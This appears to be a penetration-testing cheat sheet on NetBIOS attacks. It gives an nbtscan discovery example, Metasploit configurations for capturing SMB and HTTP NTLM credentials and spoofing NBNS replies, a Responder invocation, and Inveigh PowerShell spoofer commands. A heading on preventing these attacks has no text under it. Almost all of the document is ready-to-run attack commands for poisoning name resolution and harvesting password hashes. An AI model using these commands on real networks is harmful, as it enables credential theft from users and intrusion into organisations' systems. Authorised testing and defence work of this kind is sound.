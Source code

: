 # Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### Netbios Spoofing

#### Metasploit

```
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 

set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.222.101.213
run
	
use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.222.101.213
set SRVPORT 80
set URIPATH /
run
	
use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.222.101.213
run
```

#### Responder

```
responder -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh \
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks



